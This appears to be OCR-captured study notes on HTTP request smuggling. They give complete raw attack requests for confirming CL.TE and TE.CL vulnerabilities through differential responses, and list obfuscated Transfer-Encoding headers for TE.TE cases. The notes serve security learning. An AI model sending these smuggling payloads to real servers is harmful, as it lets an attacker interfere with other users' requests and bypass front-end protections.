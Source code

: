     X

        -------------------------------------------

        ==> Confirming CL.TE vulerabilities using differential responses
        To confirm a CL.TE vulnerability, you would send an attack request like this: 

        POST /search HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Transfer-Encoding: chunked

    e
    q=smuggling&x=                            
    0

    GET /404 HTTP/1.1
    Foo: x
        ----------------------------------------------------------------
        To confirm a TE.CL vulnerability by differential response, you would send an attack request like this: 

        POST /search HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    7c
    GET /404 HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0
        -------------------------------------------------------------

        ==>TE.TE Behavior: ofuscating the TE header 

        Here both the servers support TE header but , one of the server can be induced not to process it by obfuscating
        the header in some way.

        Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated 
        Transfer-Encoding header, the remainder of the attack will take the same form as for the CL.TE or TE.CL 
        vulnerabilities already described. 

        Some ways of obfuscate Transfer-Encoding:

        Transfer-Encoding: xchunked

    Transfer-Encoding : chunked
